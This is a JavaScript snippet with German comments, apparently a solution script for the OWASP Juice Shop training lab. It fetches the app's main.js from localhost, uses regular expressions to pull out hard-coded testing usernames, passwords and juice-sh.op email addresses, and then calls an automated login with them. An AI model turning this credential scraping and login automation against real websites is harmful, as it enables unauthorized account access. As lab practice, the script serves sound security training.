 ```javascript
// Automatische Extraktion aller Credentials aus main.js
async function extractAllCredentials() {
    console.log('🕵️ Starting credential extraction from main.js...');
    
    try {
        const response = await fetch('http://localhost:3000/main.js');
        const jsCode = await response.text();
        
        const credentials = {
            testing: {
                username: null,
                password: null
            },
            admin: {
                username: null,
                password: null
            },
            others: []
        };
        
        // Extrahiere Testing Credentials
        const testingUserMatch = jsCode.match(/testingUsername\s*=\s*["']([^"']+)["']/);
        const testingPassMatch = jsCode.match(/testingPassword\s*=\s*["']([^"']+)["']/);
        
        if (testingUserMatch) {
            credentials.testing.username = testingUserMatch[1];
            console.log('🧪 Testing Username:', testingUserMatch[1]);
        }
        
        if (testingPassMatch) {
            credentials.testing.password = testingPassMatch[1];
            console.log('🧪 Testing Password:', testingPassMatch[1]);
        }
        
        // Suche nach weiteren Email-Adressen
        const allEmails = jsCode.match(/["'][^"']*@[^"']+["']/g);
        if (allEmails) {
            const uniqueEmails = [...new Set(allEmails.map(email => email.replace(/['"]/g, '')))];
            console.log('📧 All found emails:', uniqueEmails);
            
            // Filtere juice-sh.op Emails
            const juiceEmails = uniqueEmails.filter(email => email.includes('juice-sh.op'));
            console.log('🧃 Juice Shop emails:', juiceEmails);
            
            credentials.others = juiceEmails;
        }
        
        // Test Login mit gefundenen Credentials
        if (credentials.testing.username && credentials.testing.password) {
            console.log('✅ Complete testing credentials found!');
            console.log('📋 Credentials:', credentials.testing);
            
            // Automatischer Login-Test
            await testLogin(credentials.testing.username, credentials.testing.password);
        }
        
        return credentials;
        
    } catch (error) {
        console.error('❌ Error extracting credentials:', error);
    }
}

```